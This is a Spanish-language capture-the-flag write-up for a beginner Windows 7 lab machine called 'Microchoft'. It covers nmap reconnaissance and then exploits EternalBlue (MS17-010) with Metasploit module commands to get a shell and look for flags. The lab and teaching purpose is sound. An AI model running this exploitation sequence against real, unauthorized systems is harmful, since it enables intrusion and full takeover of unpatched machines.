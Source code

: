 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Microchoft

### 🔍 **RECONOCIMIENTO**

En primer lugar, miramos la **IP** de la máquina víctima con este comando:

```bash
sudo arp-scan --interface=eth0 --localnet
```

<figure><img src="../../.gitbook/assets/imagen (15).png" alt=""><figcaption></figcaption></figure>

En segundo lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.57
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/imagen (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Definitivamente es una máquina Windows porque el TTL=128.

A continuación, se realiza el comando:

```bash
sudo nmap -p- --open -sS -Pn --min-rate 5000 -n 192.168.1.57
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, los siguientes puertos están abiertos:

* **135/tcp**: Pertenece al servicio **MSRPC** (Microsoft Remote Procedure Call), que es utilizado para la comunicación entre procesos en sistemas Windows.
* **139/tcp**: Pertenece al servicio **NetBIOS-SSN** (NetBIOS Session Service), utilizado por redes que ejecutan el protocolo SMB (Server Message Block) en sistemas Windows.
* **445/tcp**: Pertenece al servicio **Microsoft-DS** (Microsoft Directory Services), utilizado para compartir archivos en redes Windows mediante el protocolo SMB.

Además, se han detectado varios puertos en el rango dinámico de Windows (49152-65535) abiertos, pero sin un servicio conocido específico:

* **49152/tcp - 49157/tcp**: Puertos marcados como **unknown**, los cuales pueden estar relacionados con servicios de red personalizados o asignados dinámicamente por el sistema operativo para uso de aplicaciones específicas.

Dado que los puertos **135/tcp**, **139/tcp**, y **445/tcp** están abiertos, se indagará más en relación a estos puertos para evaluar posibles vulnerabilidades o configuraciones incorrectas en los servicios SMB y MSRPC, que son comúnmente utilizados en entornos Windows y pueden ser potenciales vectores de ataque si no están adecuadamente asegurados.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445 -v 192.168.1.57
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/imagen (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el puerto **445/tcp** perteneciente al servicio **Microsoft-DS** está abierto. Este puerto es utilizado para compartir archivos y otros recursos en redes Windows mediante el protocolo SMB (Server Message Block).

Al analizar más a fondo, se ha detectado que el sistema operativo es **Windows 7 Home Basic SP1 (Service Pack 1)** y está configurado en el grupo de trabajo **WORKGROUP**. Este sistema, con el **puerto 445 abierto**, es particularmente preocupante ya que es vulnerable a la famosa vulnerabilidad **EternalBlue**.

**EternalBlue**, que afecta versiones de Windows no actualizadas, explota una vulnerabilidad crítica en el protocolo SMBv1, lo que podría permitir la ejecución remota de código y, en consecuencia, el control completo del sistema afectado. Esta vulnerabilidad ha sido utilizada en ataques masivos como el ransomware **WannaCry**.

Dado que estamos frente a un sistema operativo obsoleto (Windows 7), y que el puerto **445/tcp** está expuesto, se procederá a indagar más para determinar si el sistema es susceptible a esta vulnerabilidad y recomendar medidas de mitigación, como la actualización del sistema operativo o la desactivación del protocolo SMBv1.\


Por eso mismo revisamos si es vulnerable por si acaso con el comando:

```
nmap -p445 --script="vuln and safe" 192.168.1.57
```

<figure><img src="../../.gitbook/assets/imagen (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
msfconsole
```

<figure><img src="../../.gitbook/assets/imagen (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación se intentará explotar esa vulnerabilidad a través de la herramienta **Metasploit**. Se busca la vulnerabilidad exacta que obtenida en el anterior escaneo.

```bash
search ms17-010
```

<figure><img src="../../.gitbook/assets/imagen (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el segundo ya que tenemos un **Windows 7** de máquina víctima.

```bash
use 2
```

<figure><img src="../../.gitbook/assets/imagen (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos las opciones que tenemos que configurar con el comando:

```bash
show options
```

<figure><img src="../../.gitbook/assets/imagen (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, configuramos los parámetros necesarios para realizar el ataque:

* **RHOSTS**: Definimos la dirección IP del host remoto (objetivo) como `192.168.1.57`.
* **LHOST**: Establecemos la dirección IP de nuestro host local (atacante) como `192.158.1.50`.

<figure><img src="../../.gitbook/assets/imagen (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Después de haber configurado estos parámetros correctamente, procederemos a verificar si el objetivo es explotable. Esto implica ejecutar la explotación para confirmar si la vulnerabilidad está presente y si podemos obtener acceso o control del sistema remoto.

```bash
exploit
```

<figure><img src="../../.gitbook/assets/imagen (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro ejecutamos:

```bash
pwd
```

<figure><img src="../../.gitbook/assets/imagen (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

A medida que avanzamos en nuestra investigación, revisaremos los directorios de los usuarios **Admin** y **Lola** para encontrar las diferentes flags requeridas en este reto.

¡Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
